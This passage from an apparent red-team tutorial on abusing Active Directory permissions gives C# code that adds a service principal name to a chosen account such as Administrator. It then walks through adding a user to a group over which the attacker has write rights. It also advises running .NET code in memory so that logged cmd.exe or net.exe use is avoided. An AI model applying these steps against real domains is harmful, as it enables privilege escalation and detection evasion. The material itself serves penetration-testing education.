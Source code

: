 The full code for this example is below:

```cs
SearchResultCollection results;

DirectoryEntry de = new DirectoryEntry();
DirectorySearcher ds = new DirectorySearcher(de);

string user = "Administrator"; // Change this
string spn = "spn/spn";        // Change this

string query = "(samaccountname=" + user + ")";
ds.Filter = query;
results = ds.FindAll();

foreach (SearchResult sr in results)
{
    DirectoryEntry mde = sr.GetDirectoryEntry();
    mde.Properties["serviceprincipalname"].Add(spn);
    mde.CommitChanges();
}
```



## Group Exploitation

Having a write primitive over a group object because of a permissive Access Control Entry (ACE) allows us to add users to that group, for example our own user. This group which we have write access to could also hold additional privileges in the Active Directory environment, furthering our access and allowing us to potentially interact with more resources or laterally move. While you may be thinking the obvious exploitation method for this technique would to just use the built in Windows utility `net.exe`, for operational security (OPSEC) considerations executing the group adding procedure using a .NET assembly in memory is a much better idea. These OPSEC considerations include the fact that you might be required to spawn `cmd.exe` or `powershell.exe` to execute `net.exe`, which is commonly flagged and very likely logged. 

The `System.DirectoryServices.AccountManagement` namespace has some capability we can utilize to add our current user or any other user to a group which we have control over. Adding any user to a target group can be done in four simple lines.

First we're required to create a `PrincipalContext` object by instantiating a new `PrincipalContext` class with the `ContextType` of `Domain` passed in as a constructor.

```cs
PrincipalContext ctx = new PrincipalContext(ContextType.Domain);
```

We can then use this context as a parameter along with the target group in the `FindByIdentity()` method in the `GroupPrincipal` class to create a `GroupPrincipal` object which represents the target group that we can freely interact with. 

```cs
GroupPrincipal groupPrincipal = GroupPrincipal.FindByIdentity(ctx, group);
```
